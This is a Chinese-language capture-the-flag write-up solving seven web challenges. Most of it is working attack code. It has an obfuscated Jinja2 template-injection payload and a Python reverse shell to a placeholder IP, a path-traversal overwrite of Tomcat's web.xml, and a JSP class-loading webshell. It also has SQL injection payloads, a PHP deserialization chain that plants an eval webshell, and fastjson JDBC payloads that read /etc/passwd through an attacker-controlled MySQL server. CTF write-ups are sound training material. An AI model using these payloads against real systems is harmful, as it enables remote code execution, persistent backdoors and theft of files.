

# Disal


空，F12 看一下源码，找到这个东西。


访问一下，看到一张机器人图片。


猜测是 robots.txt，访问一下。


继续访问 f1ag.php。

```php
<?php
show_source(__FILE__);
include("flag_is_so_beautiful.php");
$a=@$_POST['a'];
$key=@preg_match('/[a-zA-Z]{6}/',$a);
$b=@$_REQUEST['b'];

if($a>999999 and $key){
    echo $flag1;
}
if(is_numeric($b)){
    exit();
}
if($b>1234){
    echo $flag2;
}
?>


```

有两层，变量 a 需要大于 999999，并且有 6 个连续的字母。

变量 b 需要大于 1234，并且需要 is_numeric($b) 返回 false。

常规内容，变量 a 直接构造 99999999aaaaaa，变量 b 构造 9999a 即可。


# shxpl


其实就是类似 ping 的一个东西，也是命令注入。

过滤了很多东西，这里只能使用 && 进行连接。

ls 被过滤了，只能用 dir。

空格也被过滤了，$ 也被过滤了，这里可以用 %09。


找到 flag，此时可以去看一下 index.php，里面有黑名单。

cat 被过滤了，可以用 more 看。


flag，通配符都被 ban 了，但还可以使用 [f] 进行绕过。


# Injct
老朋友了，一眼 SSTI，这里直接上 fenjing 跑。

```python
{%if(((((cycler.next|attr(('%c'%95)*2+'globals'+('%c'%95)*2)|attr(('%c'%95)*2+'getitem'+('%c'%95)*2))(('%c'%95)*2+'builtins'+('%c'%95)*2)|attr(('%c'%95)*2+'getitem'+('%c'%95)*2))(('%c'%95)*2+'i''mport'+('%c'%95)*2))('os')|attr('p''open'))('\\163\\154\\145\\145\\160\\40\\63').read())%}


```

发现跑出来的是无回显，而且用不了，sleep 3 没反应，可能是因为 \\ 转义的问题，那就本地起一个服务，先把黑名单试出来，然后额外把 \\ 过滤掉。

跑出来还用不了，那就再换一个，再额外过滤一个加号。

再 sleep 3，发现有反应了，可以弹个 shell 试试。

由于是 python 环境，那就直接用 python 弹shell。

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


```

```python
{%if(((((cycler.next|attr(('%c'%95)*2~'globals'~('%c'%95)*2)|attr(('%c'%95)*2~'getitem'~('%c'%95)*2))(('%c'%95)*2~'builtins'~('%c'%95)*2)|attr(('%c'%95)*2~'getitem'~('%c'%95)*2))(('%c'%95)*2~'i''mport'~('%c'%95)*2))('os')|attr('p''open'))(('%c'*228)%(敏感内容！上面的指令转成ASCII码，用逗号隔开)).read())%}


```

监听 7777 端口，发送 payload，成功弹到。


# TOXEC


文件上传，先访问一下不存在的页面，发现 Tomcat，应该是 servlet，考虑传 jsp 马。


传一个 jsp 马上去，发现 jsp 后缀被过滤了，重命名文件也无果。

这边可以考虑操作一下 /WEB-INF/web.xml 这个配置文件，让其解析其他文件为 jsp，然后连接。

修改解析方式通过 mapping 实现，这里把所有 .xml 文件都解析为了 jsp。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0">
  <servlet>
    <servlet-name>xml</servlet-name>
    <servlet-class>org.apache.jasper.servlet.JspServlet</servlet-class>
  </servlet>
  <servlet-mapping>
    <servlet-name>xml</servlet-name>
    <url-pattern>*.xml</url-pattern>
  </servlet-mapping>
</web-app>


```

直接上传，然后修改文件名为 ../WEB-INF/web.xml，这样就可以恶意修改掉 web.xml。


然后再传一个 shell.xml 文件，内容是 jsp 马的内容，上传后访问他就相当于访问了 shell.jsp。

```java
<%!
class U extends ClassLoader {
    U(ClassLoader c) {
        super(c);
    }
    public Class g(byte[] b) {
        return super.defineClass(b, 0, b.length);
    }
}

public byte[] base64Decode(String str) throws Exception {
    try {
        Class clazz = Class.forName("sun.misc.BASE64Decoder");
        return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
    } catch (Exception e) {
        Class clazz = Class.forName("java.util.Base64");
        Object decoder = clazz.getMethod("getDecoder").invoke(null);
        return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
    }
}
%>
<%
String cls = request.getParameter("passwd");
if (cls != null) {
    new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
}
    %>


```


根目录发现 flag。


# sInXx


有个查询功能，手玩一下，发现是个 sql 注入，过滤了很多东西。

只要输入的字符串包含不是已有的名字，并且是被过滤的内容，就会回显所有内容，借助这一特征，可以大致把黑名单跑出来。

```plain
&
&&

+
,
|
or
||
--+
end
mid
xor
>
<
from
left
like
ascii
sleep
rlike
right
order
floor
union
where
regexp
select
substr
<>
information


```

试一下发现可以大写绕过。

:::color5
为了方便看，先忽略了绕过空格，也就是正常的 payload 需要把空格替换成 /**/

:::

```sql
1' UNION SELECT * FROM ((SELECT 1)A join (SELECT 2)B join (SELECT 3)C join (SELECT 4)D join (SELECT 5)E)#


```


查一下库名，information 被过滤了，这里可以使用 sys.schema_table_statistics_with_buffer。

```sql
1' UNION SELECT * FROM ((SELECT 1)A join (SELECT 2)B join (SELECT 3)C join (SELECT 4)D join (SELECT group_concat(table_name) FROM sys.schema_table_statistics_with_buffer WHERE table_schema=database())E)#


```


由于 information 被过滤，这里得走无列名注入。

```sql
1' UNION SELECT * FROM (SELECT * FROM ((SELECT 5)E JOIN (SELECT 1)A JOIN (SELECT 2)B JOIN (SELECT 3)C JOIN (SELECT 4)D) UNION SELECT * FROM ((SELECT 1)A JOIN (SELECT 2)B JOIN (SELECT 3)D JOIN(SELECT * FROM DataSyncFLAG)C))AS A#


```


# pExpl
```php
 <?php
error_reporting(0);


class FileHandler {
    private $fileHandle;
    private $fileName;

    public function __construct($fileName, $mode = 'r') {
        $this->fileName = $fileName;
        $this->fileHandle = fopen($fileName, $mode);
        if (!$this->fileHandle) {
            throw new Exception("Unable to open file: $fileName");
        }
        echo "File opened: $fileName\n";
    }

    public function readLine() {
        return fgets($this->fileHandle);
    }

    public function writeLine($data) {
        fwrite($this->fileHandle, $data . PHP_EOL);
    }

    public function __destruct() {
        if (file_exists($this->fileName) &&!empty($this->fileHandle)) {
            fclose($this->fileHandle);
            echo "File closed: {$this->fileName}\n";
        }
    }
}

class User {

    private $userData = [];

    public function __set($name, $value) {
        if ($name == 'password') {
            $value = password_hash($value, PASSWORD_DEFAULT);
        }
        $this->userData[$name] = $value;
    }

    public function __get($name) {
        return $this->userData[$name] ?? null;
    }

    public function __toString() {
        if(is_string($this->params) && is_array($this->data) && count($this->data) > 1){
            call_user_func($this->data,$this->params);
        }
        return "Hello";
    }

    public function __isset($name) {
        return isset($this->userData[$name]);
    }
}

class Logger {
    private $logFile;
    private $lastEntry;

    public function __construct($logFile = 'application.log') {
        $this->logFile = $logFile;
    }

    private function log($level, $message) {
        $this->lastEntry = "[" . date("Y-m-d H:i:s") . "] [$level] $message" . PHP_EOL;

        file_put_contents($this->logFile, $this->lastEntry, FILE_APPEND);
    }

    public function setLogFile($logFile) {
        $this->logFile = $logFile;
    }

    public function clearOldLogs($daysToKeep = 30) {
        $files = glob("*.log");
        $now = time();
        foreach ($files as $file) {
            if (is_file($file)) {
                if ($now - filemtime($file) >= 60 * 60 * 24 * $daysToKeep) {
                    unlink($file);
                }
            }
        }
    }

    public function __call($name, $arguments) {

        $validLevels = ['info', 'warning', 'error', 'debug'];
        if (in_array($name, $validLevels)) {
            $this->log(strtoupper($name), $arguments[0]);
        } else {
            throw new Exception("Invalid log level: $name");
        }
    }

    public function __invoke($message, $level = 'INFO') {
        $this->log($level, $message);
    }
}

if(isset($_GET['exp'])) {
    if(preg_match('/<\?php/i',$_GET['exp'])){
        exit;
    }
    $exp = unserialize($_GET['exp']);
    throw new Exception("Test!");
} else {
    highlight_file(__FILE__);
} 


```

考察反序列化，没有找到可以 RCE 的地方，应该是要写个马进去。

符合条件的只有 Logger 类的 log 方法了，里面有个 file_puts_contents。

想要调用这个 log 方法，可以借助 Logger 类的 __invoke 魔术方法，User 类的 call_user_func 就能触发。

想要触发 User 类的 __toString 魔术方法，可以借助 FileHandler 类的 file_exists，这里不管是否存在指定文件，只有这个类被作为参数传入 file_exists 函数，就会触发他的 __toString 魔术方法。

由此一来，我们的链子就出来了。


     destruct             toString        invoke

木马的内容不能出现 <?php，很简单，直接用 <?= 代替即可。

注意反序列化后有个 throw new Exception("Test!"); 这玩意需要绕一下，否则无法触发 FileHandler 类的 __destruct 魔术方法，这里可以用 fast destruct，把生成的 payload 的最后一个大括号去掉即可。

```php
<?php
error_reporting(0);
class FileHandler {
    private $fileHandle='111';
    private $fileName;
    public function SetFileName($fileName){
        $this->fileName = $fileName;
    }
    public function __destruct() {
        if (file_exists($this->fileName) &&!empty($this->fileHandle)) {
            fclose($this->fileHandle);
            echo "File closed: {$this->fileName}\n";
        }
    }
}
class User {
    private $userData = [];
    public function setUserData($userData){
        $this->userData = $userData;
    }
    public function __toString() {
        if(is_string($this->params) && is_array($this->data) && count($this->data) > 1){
            call_user_func($this->data,$this->params);
        }
        return "Hello";
    }
}
class Logger {
    private $logFile;
    private $lastEntry;
    public function __construct($logFile = 'shell.php') {
        $this->logFile = $logFile;
    }
    private function log($level, $message) {
        $this->lastEntry = "[" . date("Y-m-d H:i:s") . "] [$level] $message" . PHP_EOL;

        file_put_contents($this->logFile, $this->lastEntry, FILE_APPEND);
    }
    public function __invoke($message, $level = 'INFO') {
        $this->log($level, $message);
    }
}
$user = new User();
$logger = new Logger();
$temp = array(
    'data' => array($logger,'info'),
    'params' => '<?=@eval($_POST[a]); ?>'
);
$user->setUserData($temp);
$filehandler = new FileHandler();
$filehandler->SetFileName($user);
echo urlencode(serialize($filehandler));


```

:::color2
O%3A11%3A%22FileHandler%22%3A2%3A%7Bs%3A23%3A%22%00FileHandler%00fileHandle%22%3Bs%3A3%3A%22111%22%3Bs%3A21%3A%22%00FileHandler%00fileName%22%3BO%3A4%3A%22User%22%3A1%3A%7Bs%3A14%3A%22%00User%00userData%22%3Ba%3A2%3A%7Bs%3A4%3A%22data%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A6%3A%22Logger%22%3A2%3A%7Bs%3A15%3A%22%00Logger%00logFile%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A17%3A%22%00Logger%00lastEntry%22%3BN%3B%7Di%3A1%3Bs%3A4%3A%22info%22%3B%7Ds%3A6%3A%22params%22%3Bs%3A23%3A%22%3C%3F%3D%40eval%28%24_POST%5Ba%5D%29%3B+%3F%3E%22%3B%7D%7D

:::

用蚁剑连接 shell.php 即可。


# FastDB


可以传 json，应该是个 fastjson。

试着打了一下 JDBC 反序列化，用 vps 启了一个 MySQL_Fake_Server 服务，传了下面的 payload，发现有响应，但是读不到东西。

```json
{ "name": { "@type": "java.lang.AutoCloseable", "@type": "com.mysql.jdbc.JDBC4Connection", "hostToConnectTo": "x.x.x.x", "portToConnectTo": 3306, "info": { "user": "fileread_/etc/passwd", "password": "pass", "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor", "autoDeserialize": "true", "NUM_HOSTS": "1" } }
```


试了很多类似的 payload，都行不通。

最后找到了这个文章，用里面的 payload 打通了。

[VCTF-archived elephant - gxngxngxn - 博客园 (cnblogs.com)](https://www.cnblogs.com/gxngxngxn/p/18081452)

```json
{"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostToConnectTo":"x.x.x.x","portToConnectTo": 3306,"databaseToConnectTo":"test","info":{"@type":"java.util.Properties","PORT":" 3306","allowUrlInLocalInfile":"true","allowLoadLocalInfile":"true","allowLoadLocalInfileInPath":"/","maxAllowedPacket":"655360","user":"fileread_/etc/passwd","PORT.1":" 3306","HOST.1":"x.x.x.x","NUM_HOSTS":"1","HOST":"x.x.x.x","DBNAME":"test"}}
```


```json
{"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostToConnectTo":"x.x.x.x","portToConnectTo": 3306,"databaseToConnectTo":"test","info":{"@type":"java.util.Properties","PORT":" 3306","allowUrlInLocalInfile":"true","allowLoadLocalInfile":"true","allowLoadLocalInfileInPath":"/","maxAllowedPacket":"655360","user":"fileread_/flag","PORT.1":" 3306","HOST.1":"x.x.x.x","NUM_HOSTS":"1","HOST":"x.x.x.x","DBNAME":"test"}}
```



成功读到 flag。


